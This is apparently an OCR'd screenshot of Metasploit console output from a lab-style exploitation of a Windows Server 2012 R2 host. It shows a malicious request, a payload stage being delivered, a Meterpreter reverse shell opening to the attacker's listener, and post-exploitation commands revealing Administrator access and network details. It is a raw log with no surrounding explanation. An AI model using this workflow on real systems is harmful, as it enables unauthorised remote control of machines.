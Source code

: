 ```
[*] Sending a malicious request to /
[*] Payload request received: /9aOILMYAZ1s5GBY
[*] Sending stage (175174 bytes) to 10.0.18.166
[!] Tried to delete %TEMP%\EZzHPcdmGX.vbs, unknown result
[*] Meterpreter session 1 opened (10.10.16.3:4444 -> 10.0.18.166:49226) at 2023-07-19 17:20:04 +0530
[*] Server stopped.

meterpreter > 
```

```
meterpreter > sysinfo
Computer        : WIN-OMCNBKR66MN
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > getuid
Server username: WIN-OMCNBKR66MN\Administrator
```

```
meterpreter > ipconfig

Interface  1
============
Name         : Software Loopback Interface 1
Hardware MAC : 00:00:00:00:00:00
MTU          : 4294967295
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0
IPv6 Address : ::1
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff


Interface 12
============
Name         : AWS PV Network Device #0
Hardware MAC : 06:0b:6c:51:e9:be
MTU          : 9001
IPv4 Address : 10.0.18.166
IPv4 Netmask : 255.255.240.0
IPv6 Address : fe80::e583:44a0:395b:18e2
IPv6 Netmask : ffff:ffff:ffff:ffff::


Interface 14
============
Name         : Microsoft ISATAP Adapter
Hardware MAC : 00:00:00:00:00:00
MTU          : 1280
IPv6 Address : fe80::5efe:a00:12a6
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff
```
